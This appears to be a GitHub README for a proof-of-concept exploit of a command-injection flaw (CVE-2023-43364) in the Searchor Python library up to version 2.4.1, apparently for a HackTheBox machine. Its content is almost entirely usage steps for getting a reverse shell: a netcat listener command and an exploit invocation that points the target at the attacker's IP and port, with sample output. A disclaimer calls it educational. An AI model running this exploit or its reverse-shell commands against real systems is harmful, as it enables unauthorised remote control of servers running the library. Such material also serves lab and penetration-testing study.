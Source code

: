 # Searchor-2.4.0-Arbitrary-CMD-Injection-Python
Reverse shell exploit for Searchor &lt;=2.4.1

## How to get reverse shell
1. Start netcat listener of your host machine.
```
nc -nvlp 8888
```
2. Run the exploit.
```
python3 CVE-2023-43364.py -u http://searcher.htb/ -rh 10.10.10.11 -rp 8888
Connection Established Successfully.
Trying to open a reverse shell on 10.10.10.11 at 8888...
```

## Disclaimer
This POC was created for educational purposes only.

